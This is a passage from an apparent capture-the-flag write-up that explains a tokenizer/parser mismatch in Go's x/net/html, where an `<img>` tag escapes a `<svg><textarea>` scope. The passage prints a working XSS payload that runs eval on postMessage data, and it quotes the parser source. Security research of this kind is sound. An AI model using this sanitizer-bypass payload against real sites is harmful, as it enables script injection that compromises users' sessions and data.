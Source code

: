 In this case, the tokenizer saw four tokens and three tags, the `<svg>` tag, the `<textarea>` tag, `&lt;a&gt;` token which was the raw text inside the textarea and `</textarea>` which was the closing tag. The parser on the other hand also saw four tokens, but it had parsed inside the third token and found the `<a>` tag and considered it a seperate entity.

## The final piece: `reconstructActiveFormattingElements()`

However, even my PoC above was not sufficient enough to get XSS. We were still inside the SVG element and thus the `<a>` was not being picked up by the browser as a anchor tag :(. However, while I was testing different elements and specific configurations, I found that the `<img>` tag was transported outside of the scope `<textarea><svg>` tags while parsing. This allowed me to build the following payload `<svg><textarea><img src="x" onerror="onmessage = (e) => eval(e.data)"></textarea></svg>` which was parsed as:

```
<svg>
------------------
<textarea>
------------------
&lt;img src=&#34;x&#34; onerror=&#34;onmessage = (e) =&gt; eval(e.data)&#34;&gt;
------------------
</textarea>
------------------
</svg>
------------------
<html><head></head><body><svg><textarea></textarea></svg><img src="x" onerror="onmessage = (e) =&gt; eval(e.data)"/></body></html>
```

While I did not figure out why this was caused during the solving period (as I mentioned I had only 8 hours left), after I had solved I decided to go back and look at the golang source trying to decipher why this behaviour occurs. After a bit of digging around, I found [`parse.go:390`](https://cs.opensource.google/go/x/net/+/refs/heads/master:html/parse.go;l=390;drc=c63010009c802314a29324ce49987897f9838e29;bpv=0;bpt=1):

```go
// Section 12.2.4.3.
func (p *parser) reconstructActiveFormattingElements() {
	n := p.afe.top()
	if n == nil {
		return
	}
	if n.Type == scopeMarkerNode || p.oe.index(n) != -1 {
		return
	}
	i := len(p.afe) - 1
	for n.Type != scopeMarkerNode && p.oe.index(n) == -1 {
		if i == 0 {
			i = -1
			break
		}
		i--
		n = p.afe[i]
	}
	for {
		i++
		clone := p.afe[i].clone()
		p.addChild(clone)
		p.afe[i] = clone
		if i == len(p.afe)-1 {
			break
		}
	}
}
```
